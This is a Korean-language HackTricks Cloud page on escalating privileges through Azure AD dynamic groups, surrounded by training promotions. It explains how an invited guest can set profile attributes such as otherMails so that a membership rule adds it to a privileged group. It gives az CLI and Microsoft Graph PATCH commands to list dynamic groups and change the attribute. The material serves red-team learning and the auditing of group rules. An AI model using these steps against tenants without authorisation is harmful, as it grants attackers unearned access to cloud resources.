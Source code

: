 # Az - Dynamic Groups Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**동적 그룹**은 설정된 **규칙** 집합이 있는 그룹으로, 규칙과 일치하는 모든 **사용자 또는 장치**가 그룹에 추가됩니다. 사용자의 **속성**이 **변경**될 때마다 동적 규칙이 **재확인**됩니다. 그리고 **새 규칙**이 **생성**되면 모든 장치와 사용자가 **확인**됩니다.

동적 그룹에는 **Azure RBAC 역할**이 할당될 수 있지만, **AzureAD 역할**을 동적 그룹에 추가하는 것은 **불가능**합니다.

이 기능은 Azure AD 프리미엄 P1 라이센스가 필요합니다.

## Privesc

기본적으로 모든 사용자가 Azure AD에서 게스트를 초대할 수 있으므로, 동적 그룹의 **규칙**이 **속성**에 따라 사용자에게 **권한**을 부여하는 경우, 이러한 속성을 가진 **게스트**를 **생성**하여 **권한 상승**을 할 수 있습니다. 게스트는 자신의 프로필을 관리하고 이러한 속성을 변경할 수도 있습니다.

동적 멤버십을 허용하는 그룹 가져오기: **`az ad group list --query "[?contains(groupTypes, 'DynamicMembership')]" --output table`**

### Example

* **규칙 예시**: `(user.otherMails -any (_ -contains "security")) -and (user.userType -eq "guest")`
* **규칙 설명**: 'security' 문자열이 포함된 보조 이메일을 가진 모든 게스트 사용자가 그룹에 추가됩니다.

게스트 사용자 이메일에 대해 초대를 수락하고 [https://entra.microsoft.com/#view/Microsoft\_AAD\_IAM/TenantOverview.ReactView](https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView)에서 **해당 사용자**의 현재 설정을 확인합니다.\
불행히도 페이지에서 속성 값을 수정할 수 없으므로 API를 사용해야 합니다:

{% code overflow="wrap" %}
```powershell
# Login with the gust user
az login --allow-no-subscriptions

# Get user object ID
az ad signed-in-user show

# Update otherMails
az rest --method PATCH \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--headers 'Content-Type=application/json' \
--body '{"otherMails": ["newemail@example.com", "anotheremail@example.com"]}'

# Verify the update
az rest --method GET \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--query "otherMails"
```
{% endcode %}

## References

* [https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/](https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
